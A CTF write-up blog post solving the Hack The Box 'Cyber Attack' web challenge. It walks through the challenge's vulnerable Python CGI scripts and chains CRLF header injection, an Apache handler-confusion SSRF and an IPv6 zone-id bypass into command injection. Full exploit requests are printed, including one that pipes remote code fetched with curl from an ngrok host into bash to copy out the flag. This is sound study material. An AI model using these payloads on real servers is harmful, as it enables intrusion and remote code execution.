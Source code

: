 ```yaml
---
layout: post
title: "[HTB] Hackthebox Cyber Attack Writeup"
slug: "cyberattack"
date: "2025-03-29"
comments: false
categories:
  - hacking
tags:
  - ctf
  - hackthebox
  - 2025
  - Cyber Apocalypse
  - apache
  - ssrf
  - crlf
---
```


This is an easy web challenge from [hackthebox](https://ctf.hackthebox.com) Cyber Apocalypse 2026 Tales from Eldoria. In this challenge we are provided with an `ip:port` and `source code` of the web app.

Navigating to the web app we are greeted with this page.
![index](/images/cyberAttack/index.png)

We have functionality to attack a `domain` and `ip` but only `domain` is enabled when we enter values.
![domain_test](/images/cyberAttack/attack_domain_test.com.png)

We can only input valid domain names with TLD, and entry of `localhost` doesn't work.
![localhost](/images/cyberAttack/attack_domain_localhost.png)

Since we are provided with the source code, let's dive right into it without wasting time on enumerating the site and its functionalities.

In `apache/apache2.conf`.

```conf
ServerName CyberAttack

AddType application/x-httpd-php .php

<Location "/cgi-bin/attack-ip">
Order deny,allow
Deny from all
Allow from 127.0.0.1
Allow from ::1
</Location>
```

We can see that the path `/cgi-bin/attack-ip` is only accessible from localhost and all attempts to access it will be denied as stated in the `apache2.conf`.

![403](/images/cyberAttack/403_attack_ip.png)

Now let's analyse index page at `/src/index.php`
```javascript
...
const isLocalIP = (ip) => {
return ip === "127.0.0.1" || ip === "::1" || ip.startsWith("192.168.");
};
// Get the user's IP address
const userIP = "<?php echo $_SERVER['REMOTE_ADDR']; ?>";
// Enable/disable the "Attack IP" button based on the user's IP
const attackIPButton = document.getElementById("attack-ip");
// Enable buttons if required fields are filled
const enableButtons = () => {
const playerName = document.getElementById("user-name").value;
const target = document.getElementById("target").value;
const attackDomainButton = document.getElementById("attack-domain");
...
```

`userIP` is taken and buttons are enabled based on the ip. Nothing much to go on here. We see some calls to `cgi-bin/*` so let's shift our focus on those first.

For the file `src/cgi-bin/attack-domain`
```python
#!/usr/bin/env python3
import cgi
import os
import re  

def is_domain(target):
    return re.match(r'^(?!-)[a-zA-Z0-9-]{1,63}(?<!-)\.[a-zA-Z]{2,63}$', target)

form = cgi.FieldStorage()
name = form.getvalue('name')
target = form.getvalue('target')

if not name or not target:
    print('Location: ../?error=Hey, you need to provide a name and a target!')
elif is_domain(target):
    count = 1 # Increase this for an actual attack
    os.popen(f'ping -c {count} {target}')
    print(f'Location: ../?result=Succesfully attacked {target}!')
else:
    print(f'Location: ../?error=Hey {name}, watch it!')
print('Content-Type: text/html')
print()
```

We can see that it takes two parameters from the http request `name` and `target` and then the `target` parameter is passed through `is_domain(target)` function which uses a regex match to check if it a valid TLD address. So basically `test.com` works but `sub.test.com`,`-test.com`, `test.com/folder` and other `urls` don't work and an error is shown.

If the domain name check passes then the input is used to call a system command using `os.popen` which calls `ping` on the target. This is a serious security flaw if somehow the `regex` is bypassed. For example an attacker could gain `RCE` with payloads like `test.com;whoami`. A reflected `XSS` can also be triggered since the `name` is printed if an error occurs. 

- A possible RCE if regex is bypassed on the domain name.
- Reflected XSS on name parameter.

Let's proceed further and analyse the next file `src/cgi-bin/attack-ip`.

```python
#!/usr/bin/env python3
import cgi
import os
from ipaddress import ip_address  

form = cgi.FieldStorage()
name = form.getvalue('name')
target = form.getvalue('target')
 
if not name or not target:
    print('Location: ../?error=Hey, you need to provide a name and a target!')
try:
    count = 1 # Increase this for an actual attack
    os.popen(f'ping -c {count} {ip_address(target)}')
    print(f'Location: ../?result=Succesfully attacked {target}!')
except:
    print(f'Location: ../?error=Hey {name}, watch it!')
print('Content-Type: text/html')
print()
```

This is similar to our `attack-domain` python script but this time the target is an IP address and it uses an import of `ip_address` which check if the `target` is a valid IP address. This code also has the same vulnerability to get `RCE` since it uses `os.popen` to run a `ping` on the `target`. 

While trying to bypass the `regex` on `attack-domain` does not yield us anything, we  shift our focus on the `name` parameter.

We can see that when an error is triggered, the `name` parameter is also returned in the `http` response headers.

![header_error](/images/cyberAttack/header_error.png)

So we can try other vulnerabilities. 

We can try `crlf` to inject additional headers.
![injected_headers](/images/cyberAttack/injected_headers.png)

After some researching we find this wonderful blog post on apache's vulnerability by [orangetsai](https://blog.orange.tw/posts/2024-08-confusion-attacks-en/) 
![blog_excerpt](/images/cyberAttack/blog_excerpt.png)

We test the exploit we got from the blog.
![proxy](/images/cyberAttack/proxy_works.png) 

We are able to cause ssrf on the server.

We try it on the `attack-ip` but got error.
![attack_ip](/images/cyberAttack/trying_ssrf_attack_ip.png)

So we url encode the characters.
![url_encode](/images/cyberAttack/url_encode.png)

```http
GET /cgi-bin/attack-domain?target=test&name=test%0d%0aLocation:/ooo%0d%0aContent-Type:proxy:http%3a%2f%2f127.0.0.1%2fcgi-bin%2fattack-ip%3ftarget%3d10.10.10.10%26name=test2%0d%0a%0d%0a
```

We now have a way to perform `SSRF` to call `attack-ip` but we also have to find a way to bypass the `ip_address()` check in the code to execute any code.

```python
try:
    count = 1 # Increase this for an actual attack
    os.popen(f'ping -c {count} {ip_address(target)}')
    print(f'Location: ../?result=Succesfully attacked {target}!')

```

After some digging around on the `ip_address()` in python, we can see that in ipv6 we can insert zone id using `%` character.  So `::1%test` is also a valid ipv6 entry.

![bypass](/images/cyberAttack/bypass_ipAddress.png)
We are able to bypass the check get code execution.

Let's proceeds further.
```entry.sh
#!/bin/bash
mv /flag.txt /flag-$(head /dev/urandom | tr -dc A-Za-z0-9 | head -c 15).txt

# Start supervisord
/usr/bin/supervisord -c /etc/supervisor/conf.d/supervisord.conf
```

We can see that the flag name is randomised.

We also know that that we won't get output of the command executed from the server so we can either get a reverse shell or get the contents of the flag as a web request or write it in the webroot folder and access it from there. But in our attack input we cannot use `/` and neither can we `base64` encode since `url` are not character sensitive. So we have to find a way to execute our payload.

Since we are not using any VPS and don't have a static public IP, we will use `ngrok` to make our host machine publicly available.

![ngrok](/images/cyberAttack/ngrok_online.png)

We create a `python` http server on our host and get a callback to our machine.
In `ngrok` free tier there is a page which block and then redirects our request so we have to user `curl --location` in our request to follow the request. Just a minor inconvenience.

![curl_ngrok](/images/cyberAttack/curl_ngrok.png)

We get a request on our python server and can see that our `RCE` has been successfully achieved.
![python_http](/images/cyberAttack/python_http_server.png)

Now let's host our malicious code and host it on our server and since `/` cannot be used, we will use the `index.html` to host our code and `pipe` it to `bash`.

```index.html
cat /flag* > /var/www/html/pwned.txt
```

So our request will look like this.
```http
GET /cgi-bin/attack-domain?target=error&name=test%0d%0aLocation:/ooo%0d%0aContent-Type:proxy:http%3a%2f%2f127.0.0.1%2fcgi-bin%2fattack-ip%3ftarget%3d::1%$(curl%2b--location%2b842c-152-58-7-106.ngrok-free.app|bash)%26name=test2%0d%0a%0d%0a 
```

![burp_success](/images/cyberAttack/burp_success.png)

The code got successfully executed and we got our flag by navigating to `/pwned.txt`.
![pwned](/images/cyberAttack/pwned.png)

This easy challenge from hackthebox was actually difficult and a fun challenge to solve. 

> Overall 42/77 Challenges solved from the team. Not bad!

![certificate](/images/cyberAttack/certificate_of_participation.png)